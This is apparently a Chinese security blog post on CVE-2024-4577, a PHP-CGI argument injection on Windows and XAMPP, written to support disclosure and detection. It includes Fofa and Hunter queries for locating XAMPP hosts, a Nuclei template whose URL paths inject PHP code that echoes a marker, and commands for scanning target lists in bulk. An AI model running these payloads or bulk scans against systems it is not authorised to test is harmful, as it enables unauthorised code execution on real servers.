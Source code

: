 #  CVE-2024-4577 - PHP CGI 参数注入漏洞批量（复现）Nuclei 模板   
 Ots安全   2024-06-08 14:22  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
CVE-2024-4577 - 又一个 PHP RCE：让 PHP-CGI 参数注入再次伟大！  
  
这是我在准备Black Hat USA演讲时发现的一个附带故事/额外漏洞。我相信大部分细节已经在官方公告中涵盖 （应该很快就会发布）。尽管随着时间的推移，PHP-CGI 已逐渐被淘汰，但此漏洞默认会影响Windows 版 XAMPP，允许未经身份验证的攻击者通过特定字符序列在远程 XAMPP 服务器上执行任意代码。  
  
  
鉴于 PHP 和 XAMPP 在网络生态系统中的广泛使用，我敦促大家检查自己是否受到影响并相应地更新系统。请参阅DEVCORE 发布的安全警报 以了解缓解措施。  
  
  
这个漏洞非常简单，但这也是它有趣的地方。谁会想到，一个经过 12 年审查并被证明安全的补丁，会因为Windows 的一个小功能而被绕过？我相信这个功能可能会导致更多的潜在漏洞。如果你使用这种技术，别忘了参考这篇文章！https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ucoderef/d1980631-6401-428e-a49d-d71394be7da8😉  
  
此漏洞由 DEVCORE (@d3vc0r3) 的 Orange Tsai (@orange_8361) 发现。请务必关注他的出色研究，我们的角色只是重现和开发此问题的漏洞。安全警报：CVE-2024-4577 PHP CGI 参数注入漏洞  
  
概述 CVE-2024-4577 是 PHP 中的一个严重漏洞，影响 CGI 配置，允许攻击者通过精心设计的 URL 参数执行任意命令。  
  
受影响的版本  
- Windows 上使用 的 PHP 7.4.29 和 8.0.19 之前的版本php-cgi。  
  
鹰图：  
```
web.body="XAMPP"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacKBcBqvqicVob2kJj6MgGxJnA6MSp5EYRa5ZYj3s6xLZszUCMcpianm5USRqssjXbpAq9hPj6yWcGA/640?wx_fmt=png&from=appmsg "")  
  
Fofa：  
```
product="XAMPP"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacKBcBqvqicVob2kJj6MgGxJKSdm0GbaiaxQeiard2a9Snqic0qc11VzKBAWuGL4K7BLyZcxVVfGGOEFw/640?wx_fmt=png&from=appmsg "")  
```
id: CVE-2024-4577

info:
  name: CVE-2024-4577 PHP CGI Argument Injection
  author: Hüseyin TINTAŞ
  severity: critical
  description: >
    CVE-2024-4577 PHP CGI Argument Injection Vulnerability.
    This template checks if the response contains "CVE2024_EXP_TEST_1337" indicating a successful injection.

requests:
  - method: GET
    path:
      - "{{BaseURL}}/cgi-bin/php-cgi.exe?arg=%0aContent-Type:%20text/plain%0a%0a<?php%20echo%20\"CVE2024_EXP_TEST_1337\";?>"
      - "{{BaseURL}}/cgi-bin/php.exe?arg=%0aContent-Type:%20text/plain%0a%0a<?php%20echo%20\"CVE2024_EXP_TEST_1337\";?>"
      - "{{BaseURL}}/php-cgi/php-cgi.exe?arg=%0aContent-Type:%20text/plain%0a%0a<?php%20echo%20\"CVE2024_EXP_TEST_1337\";?>"
      - "{{BaseURL}}/php-cgi/php.exe?arg=%0aContent-Type:%20text/plain%0a%0a<?php%20echo%20\"CVE2024_EXP_TEST_1337\";?>"
      - "{{BaseURL}}/index.php?arg=%0aContent-Type:%20text/plain%0a%0a<?php%20echo%20\"CVE2024_EXP_TEST_1337\";?>"
    matchers:
      - type: word
        words:
          - "CVE2024_EXP_TEST_1337"
```  
  
```
nuclei -t CVE-2024-4577.yaml -u
nuclei -l XXXX.TXT -t CVE-2024-4577.yaml
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacKBcBqvqicVob2kJj6MgGxJkttoDib0KczBZt2o5PRic4HvkTjkNFxasfGDj7zKRY2xQn3eGX2kS7Kw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacKBcBqvqicVob2kJj6MgGxJZq3HTurzwQgYbA3WJiaPmrvefO7dq71ibHkVricoVIBsIn1qicdAQiaV3eA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacKBcBqvqicVob2kJj6MgGxJWrVica4By4pu8vO3D8Nj0nMb1I9jFWe524cUEA3fictSkdBdAJ89Xvzg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacKBcBqvqicVob2kJj6MgGxJDibxZAHaXoKfzxHyibtR30MAO0Oyc5ldjNcNcq0oLOawjdjkfOibXGdJA/640?wx_fmt=png&from=appmsg "")  
  
```
https://github.com/huseyinstif/CVE-2024-4577-Nuclei-Template/tree/main
```  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
